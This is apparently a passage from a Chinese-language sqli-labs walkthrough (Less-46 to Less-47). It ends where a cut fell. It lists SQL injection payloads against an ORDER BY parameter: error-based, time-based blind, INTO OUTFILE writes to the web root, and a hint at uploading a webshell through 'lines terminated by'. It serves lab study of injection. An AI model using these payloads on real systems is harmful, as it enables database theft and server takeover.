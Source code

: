     ?sort=1%20into%20outfile%20%22c:\\wamp\\www\\MySQL_Injection_Linux\\test1.txt%22 
    # 解释%22是双引号
    
注意：此时前端显示为空，查询结果直接转存到文件。

这个时候我们可以考虑上传网马，利用 lines terminated by ：<br>

    into outtfile c:\\wamp\\www\\sqllib\\test1.txt lines terminated by 0x(网马进行16 进制转换)<br>
    
解释：lines terminated by '\r\n' 表示指定各条记录之间用 '\r\n' 分隔。


### Less-47

本关的 sql 语句为 

    $sql = " select * from users order by ' $id ' " ;

这里是进行 id 的处理，我们依然进行分类注入。

(1) order by 后的参数

我们只能使用 and 来进行报错和延时注入。给出示例 payload ：

    # 1. and rand 相结合的方式，payload 如下：
    ?sort=1%27%20and%20rand(ascii(left(database(),1))=115)--+
    ?sort=1%27%20and%20rand(ascii(left(database(),1))=115)--+
    # 但是需要注意的是，这里我们 rand(true/false) 均都会是一样的结果，但是不影响我们学习注入思路。
    # 我们不能使用这种方式进行准确的注入，此处仅供学习参考。

    # 2. 可以利用报错的方式进行
    ?sort=1%27and%20(select%20count(*)%20from%20information_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand()*2)))--+
    # 注意此方式可能在 rand() 上存在不准确的随机值，可以多尝试 rand(0/1) 多尝试几次。
    # 这里再放一个报错注入，利用mysql重复项原理：
    ?sort=1%27and%20(select%20*%20from%20(select%20NAME_CONST(version(),1),NAME_const(version(),1))x)--+

    # 3. 延时注入：
    ?sort=1%27and%20if(ascii(substr(database(),1,1))=115,0,sleep(5))--+
    ?sort=1%27and%20if(ascii(substr(database(),1,1))=116,0,sleep(5))--+
    
(2) procedure analyse 参数后注入

利用procedure analyse 参数，我们可以执行报错注入。同时，在procedure analyse 和order by 之间可以存在limit 参数，我们在实际应用中，往往也可能会存在limit 后的注入，可以利用procedure analyse 进行注入。以下为示范：
